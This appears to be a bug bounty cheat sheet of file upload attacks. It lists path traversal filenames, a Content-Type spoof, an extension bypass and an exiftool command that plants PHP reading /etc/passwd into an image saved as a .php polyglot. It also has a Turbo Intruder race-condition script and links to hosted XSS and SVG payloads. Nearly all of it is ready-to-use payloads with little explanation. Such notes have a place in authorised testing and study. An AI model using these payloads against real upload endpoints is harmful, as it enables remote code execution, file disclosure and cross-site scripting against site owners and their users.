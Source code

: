 # Upload Files

## Directory Traversal
```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Disposition: form-data; name="avatar"; filename="..%2exploit.php"
```
## Content-Type
Content-Type to image/jpeg.

## Extension blacklist bypass

```http
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
```

## Metadata
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```
## Race condition

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

## Test metadata
Upload xss_comment_exif_metadata_double_quote.png
```http
Con`tent-Type:image/png - Content-Type: text/html
```
##### Reference: https://hackerone.com/reports/964550

## If is possible to change src=
Add urls:
* https://angeljuanma.github.io/bug-bounty/evil.svg
* https://angeljuanma.github.io/bug-bounty/xss.svg
* https://angeljuanma.github.io/bug-bounty/xss.html

